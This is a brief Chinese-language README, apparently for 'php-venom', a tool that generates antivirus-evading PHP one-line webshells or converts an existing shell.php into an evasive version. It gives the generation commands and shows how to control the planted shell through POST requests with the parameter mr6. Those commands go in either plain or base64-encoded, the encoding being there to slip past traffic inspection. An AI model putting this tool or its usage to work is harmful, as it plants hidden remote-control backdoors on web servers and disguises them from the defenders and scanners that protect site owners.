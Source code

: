 
## 使用方法
```
python3 php-venom-3.3.py    //生成免杀一句话

python3 php-venom-3.3.py shell.php   //对同目录下shell.php进行免杀处理，结果保存在shell.php.bypass.php
```
   
 ## 3.x 使用说明：
 
 是否传入id参数决定是否把流量编码
 
 ```
http://www.xxx.com/shell.php  
POST: mr6=phpinfo();  //与普通shell相同

http://www.xxx.com/shell.php?id=xxx(xxxx随便修改)

POST: mr6=cGhwaW5mbygpOwo=  //payload的base64编码

```

 

